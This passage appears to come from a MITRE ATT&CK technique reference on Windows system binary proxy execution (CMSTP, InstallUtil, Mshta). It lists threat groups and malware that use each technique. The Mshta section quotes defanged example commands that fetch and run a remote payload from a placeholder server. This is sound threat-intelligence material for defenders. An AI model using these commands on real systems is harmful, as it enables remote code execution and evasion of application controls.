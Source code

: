 Procedures:

- [S1149] CHIMNEYSWEEP: CHIMNEYSWEEP can use CMSTP.exe to install a malicious Microsoft Connection Manager Profile.
- [G0069] MuddyWater: MuddyWater has used CMSTP.exe and a malicious INF to execute its POWERSTATS payload.
- [S1202] LockBit 3.0: LockBit 3.0 can attempt a CMSTP UAC bypass if it does not have administrative privileges.

### T1218.004 - System Binary Proxy Execution: InstallUtil

Description:

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. The InstallUtil binary may also be digitally signed by Microsoft and located in the .NET directories on a Windows system: C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe and C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe. InstallUtil may also be used to bypass application control through use of attributes within the binary that execute the class decorated with the attribute [System.ComponentModel.RunInstaller(true)].

Procedures:

- [S0631] Chaes: Chaes has used Installutill to download content.
- [G0129] Mustang Panda: Mustang Panda has used InstallUtil.exe to execute a malicious Beacon stager.
- [S0689] WhisperGate: WhisperGate has used `InstallUtil.exe` as part of its process to disable Windows Defender.

### T1218.005 - System Binary Proxy Execution: Mshta

Description:

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. Files may be executed by mshta.exe through an inline script: mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")")) They may also be executed directly from URLs: mshta http[:]//webserver/payload[.]hta Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.

Procedures:

- [G0121] Sidewinder: Sidewinder has used mshta.exe to execute malicious payloads.
- [G0032] Lazarus Group: Lazarus Group has used mshta.exe to execute HTML pages downloaded by initial access documents.
- [S0250] Koadic: Koadic can use mshta to serve additional payloads and to help schedule tasks for persistence.

### T1218.007 - System Binary Proxy Execution: Msiexec

Description:
